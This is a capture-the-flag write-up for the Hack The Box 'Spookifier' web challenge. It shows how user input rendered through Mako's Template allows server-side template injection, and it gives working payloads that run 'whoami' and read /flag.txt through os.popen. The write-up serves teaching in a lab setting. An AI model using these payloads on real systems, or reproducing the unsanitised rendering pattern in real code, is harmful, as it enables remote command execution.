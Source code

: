 # Spookifier – HTB Challenge Writeup

**Challenge Name:** Spookifier

**Platform:** Hack The Box (HTB)

**Category:** Web

**Difficulty:** Easy

---

## Application Overview

Upon visiting the challenge web application, we are greeted with a simple interface where we can enter some text. When we submit it, we receive that same input text rendered in four different font styles on the resulting page. There are no authentication mechanisms or other functionalities, just one textbox and styled output. At first glance, this appears to be a harmless font conversion app.

---

## Vulnerability Discovery

We were provided with the source code, so we began by tracing the input flow. In `routes.py`, we see:

```python
@web.route('/')
def index():
    text = request.args.get('text')
    if text:
        converted = spookify(text)
        return render_template('index.html', output=converted)
    return render_template('index.html', output='')
```

The user input (`text`) is passed directly to a function called `spookify()`. Inside `util.py`, that function calls another helper `generate_render()` after converting the input into stylized text using several font dictionaries:

```python
def generate_render(converted_fonts):
    result = '''
        <tr><td>{0}</td></tr>
        <tr><td>{1}</td></tr>
        <tr><td>{2}</td></tr>
        <tr><td>{3}</td></tr>
    '''.format(*converted_fonts)

    return Template(result).render()
```

Here’s the key issue: `Template(result).render()` is part of the **Mako template engine**, and it's used to render a user-generated HTML string without escaping or sanitization. This means if our input ends up in the template, it will be interpreted as executable Mako code.

---

## Exploiting SSTI
To verify this, we supplied the following payload in the `text` parameter: ``` ${7*7} ```. If the application was secure, this should be displayed as-is. But instead, we received: ``` 49 ```. This confirmed that our input is being **evaluated as a Mako template expression**, and the server is vulnerable to SSTI.
With SSTI confirmed, the next goal was to find a way to execute system commands. The Mako template engine doesn't provide direct access to Python's built-ins like `__import__`, but we can still access the `os` module via the `self` object:

> Payload reference: [PayloadAllTheThings – Mako](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#mako)

We tested with: ``` ${self.module.cache.util.os.popen('whoami').read()} ``` And successfully got back: ``` root ```
Now that we had command execution, we simply replaced the command to read the flag: ``` ${self.module.cache.util.os.popen('cat /flag.txt').read()} ```
